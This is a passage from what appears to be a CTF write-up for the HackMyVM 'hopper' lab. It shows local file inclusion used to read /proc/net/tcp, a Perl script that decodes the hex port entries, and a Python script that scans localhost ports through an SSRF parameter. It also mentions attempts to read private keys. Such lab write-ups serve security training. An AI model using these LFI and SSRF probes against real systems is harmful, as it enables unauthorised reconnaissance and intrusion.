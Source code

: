 I can't read *id_rsa*, or even *.bashrc* or *.profile* for either of our users, so that's not much good anyway. I run the **seclists/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt** wordlist against the server but don't find anything super useful.

This wordlist does not include **/proc/net/tcp**, which for seclists is only included in **LFI-Jhaddix.txt**. If we do include it, we get several entries:

{% highlight shell %}
0: 0100007F:08AE 00000000:0000 ...trimmed
1: 00000000:0016 00000000:0000 ...trimmed
2: 360A0A0A:C312 020A0A0A:04D2 ...trimmed
{% endhighlight %}

We can decode these with this Perl script from [here](https://gist.github.com/jkstill/5095725) if we want:

{% highlight perl %}
#!/usr/bin/perl

my $hexip=$ARGV[0];
my $hexport=$ARGV[1];

print "hex: $hexip\n";

my @ip = map hex($_), ( $hexip =~ m/../g );

my $ip = join('.',reverse(@ip));

my $port = hex($hexport);

print "IP: $ip  PORT: $port\n";
{% endhighlight %}

And if we do then we get this:

{% highlight shell %}
┌──(root💀kali)-[/opt/hackmyvm/hopper]
└─# ./decode.pl 0100007F 08AE
hex: 0100007F
IP: 127.0.0.1  PORT: 2222
                           
┌──(root💀kali)-[/opt/hackmyvm/hopper]
└─# ./decode.pl 00000000 0016
hex: 00000000
IP: 0.0.0.0  PORT: 22
                           
┌──(root💀kali)-[/opt/hackmyvm/hopper]
└─# ./decode.pl 360A0A0A C312
hex: 360A0A0A
IP: 10.10.10.54  PORT: 49938
{% endhighlight %}

So we can see there is an open port (2222) accessible via localhost and indeed our vector is SSRF via an internal webserver.

I also saw a python script on another writeup used to probe all ports rather than querying for /proc/net/tcp; that's like this:

{% highlight python %}
#!/usr/bin/python3

import requests

for port in range(1,65535):
  res = requests.get('http://10.10.10.54/advanced-search/path.php?path=http://localhost:%d' % port)
  if len(res.text) == 0:
    continue
  else: 
    print('-----------------------')
	print('port %d\n' % port)
    print(res.text)
    print('-----------------------')